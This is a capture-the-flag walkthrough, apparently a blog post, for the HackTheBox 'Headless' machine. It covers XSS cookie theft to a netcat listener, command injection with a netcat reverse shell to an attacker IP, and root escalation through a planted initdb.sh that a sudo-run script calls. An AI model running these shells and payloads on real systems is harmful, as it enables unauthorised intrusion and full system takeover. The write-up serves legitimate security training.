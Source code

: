 ```yaml
---
title: HackTheBox - Headless
date: 2024-08-05 18:09:00 +0800
categories:
  - hackthebox
tags:
  - ctf
---
```



### STEP 1 SCAN 

First of all, let's do an nmap scan with the following flag:

```nmap -p- -sC -sV -T4 10.10.11.8```

- -p- to scan all ports
- -sC to execute the default scripts
- -sV to see which services are running
- -T4 to to use a timing template to make our scan faster

With the output of our scan we can see we have 2 ports open:
![[nmap.png]]
- Port 22 for ssh(Secure Shell), this will not interest us because it is very rare to find a security vulnerability on the SSH protocol
- Port 5000 we have an http server, it will greatly interest us because we now know that we have to deal with a web server

Just open the browser with the following url 
https://<IP_TARGETED>:<PORT_NUMBER>

![[website1.png]]

### STEP 2 ENUMERATION

Now that we know we are dealing with a web server we can perform dirbusting to know the files of the website

I used gobuster for this with the following flags :
- dir for dirbusting(enumeration of the directories of the website)
- -u to specify the url targeted
- -w to specify the wordlist to use

Either the following command
``` gobuster dir -u http://10.10.11.8:5000/ -w /./usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt ```

With the following output of our gobuster command we can see we have only two directories for this website:
![[website2.png]]

When we're on the the website with the IP address following by the port is we click on the button "For questions" we're redirected on the directory /support 

We can not access the/dashboard because as a user we are not allowed, so it must be borne in mind that connection cookies will make full part of this challenge

### 3 STEP INTERACT LIKE A USER

Ok, now we're here
![[website3.png]]
If we complete each section and click on submit, nothing happens. 
In this case we can try to do an XSS(Cross Site Scripting) a persistent XSS (because we will inject malicious code form that will be injected and run in the browser of the victim)

Like this : 
![[website4.png]]

Now we have something is going on:
![[website5.png]]

Now that we’re done acting as a user, it’s time to put on the hacker hood to slip on your best goodie and launch burpsuite

###  STEP 4 TRY TO HAVE ACCESS TO DASHBOARD

Here, the objective is to get the cookie of the administrator to be able to connect to the dashboard, that’s why we will put our machine on listening on the port of our choice (here port 9001), to be able to receive the cookie from the administrator when his browser will load our form.

Use the following command to put your machine on listening.

```nc -lnvp 9001 ```

- nc stands for the tool netcat
- -l for listen mode
- -v for verbosity
- -n only for IP address
- -p to specify the specific port


Just launch burpsuite (if you're like what's that tool don't worry we can learn that [here](https://www.geeksforgeeks.org/what-is-burp-suite/))
![[burpsuite_off.png]]

You can enable request interception,
![[burpsuite_on.png]]
When we return our malicious request we can change the parameters here in this case the user agent parameter because the modification of the user agent does not change the data contained in the request.

We can find our xss payload [here](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b#file-xss-payload-steal-session-cookie) :
In the payload just replace by your IP address following by the port of your choice (here 9001)

Now we have what we are looking for :
![[burp1.png]]
 Now as we can see the admin cookie is our :
 ![[response_nc.png]]

In your browser now you can try to access to the dashboard directory, if you can't don't worry it is normal, the only thing you need to do is to go to the developer console of your browser and to enter in the Storage section --> Cookies section --> And to replace the value of the cookie present with that of our admin
![[cookie.png]]

### STEP 5 LET'S TAKE A FOOT IN THE MACHINE

Now from this dashboard we will see with the help of ntore ami burp suite what happens when we click on the button "Generate a report".

![[before_ci.png]]

we can see if there are a command injection ?

![[ci.png]]

That's right, we have a command injection.

What we’re going to do is we’re going to create a reverse shell and we’re going to url encode our command to make sure that our reverse shell works

That's our command, 

```nc 10.10.16.11 60000 -e /bin/bash ```

Now let's url encode:

nc%2010.10.16.11%2060000%20-e%20%2Fbin%2Fbash

you need before performing the command injection to listen on the port of your choice here port 60000

``` nc -lnvp 60000```

just put our command and send the request

![[ci2.png]]


Now we have one foot in the machine :
(We can have a better shell using the command 
```python3 -c 'import pty; pty.spawn("/bin/bash")'``` )

![[revshell1.png]]
We can now obtain our first flag
![[screenflag.png]]
Let's goo !!!! We're a user, ok now let's try to be root!!!

### STEP 6 : A PRIVILEGE ESCALATION MUST BE PERFORMED

with the command ```sudo -l```, let's which command we can run 
We have this output:

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

We need to have more information about this command syscheck
The bash code behind this command is as follows

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

this command execute an other file initdb.sh and that's very interesting because when you type 
```shell
find -type f -name "initdb.sh"
```
We can see we have no output the file "initdb.sh" doesn't exist then we can create it, let's go.

I jump in the folder /./tmp because we need to have full rights to create and modify our "initdb.sh" like this (We use the binary netcat to do a priviledge escalation):

```shell
echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.11 60001 -e "/bin/bash"' >> initdb.sh
```

We just have to execute our command :

```shell
sudo syscheck
```

And as you can see :

![[root.png]]

Now you just have to cat the flag and GG you pwn the Headless Machine.

If you ever have the machine pwn in another way or you find my post incomplete do not hesitate to notify me via my twitter

Thank you for reading this post, have a good day.




















